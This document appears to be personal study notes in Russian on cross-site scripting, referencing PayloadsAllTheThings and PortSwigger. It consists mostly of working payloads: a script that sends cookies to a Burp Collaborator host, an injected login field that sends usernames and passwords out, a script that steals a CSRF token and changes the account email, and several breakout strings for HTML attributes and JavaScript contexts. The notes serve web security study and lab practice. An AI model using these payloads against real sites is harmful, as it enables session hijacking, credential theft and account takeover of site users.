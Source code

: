 ***
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
***
# Навигация

> [[XSS#Exploiting cross-site scripting to steal cookies|1. Exploiting cross-site scripting to steal cookies]]
> [[XSS#XSS в HTML атрибутах|2. XSS в HTML атрибутах]]
> > [[XSS### XSS into JavaScript|3. ## XSS into JavaScript]]
***
# Exploiting cross-site scripting to steal cookies

[PayloadsAllTheThings - XSS - data-grabber-for-xs](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)
Пример в CORS: 
```
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```
### Exploiting cross-site scripting to capture passwords
Здесь представлена форма, которая ожидает ввода логина и пароля, и сказу отправляет из в коллаборатор.
```
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method:'POST', mode:'no-cors', body:username.value+':'+this.value });">
```
### Exploiting XSS to perform CSRF
**Пользователь**, зашедший на страницу с **xss**, направит запрос и свой **csrf токен** на смену **email** на **'/my-account/change-email'**, если **токен** висит в **html**.
```
<script>  
var req = new XMLHttpRequest();  
req.onload = handleResponse;  
req.open('get','/my-account',true);  
req.send();  
function handleResponse() {  
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
var changeReq = new XMLHttpRequest();  
changeReq.open('post', '/my-account/change-email', true);  
changeReq.send('csrf='+token+'&email=test@test.com')  
};  
</script>
```

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`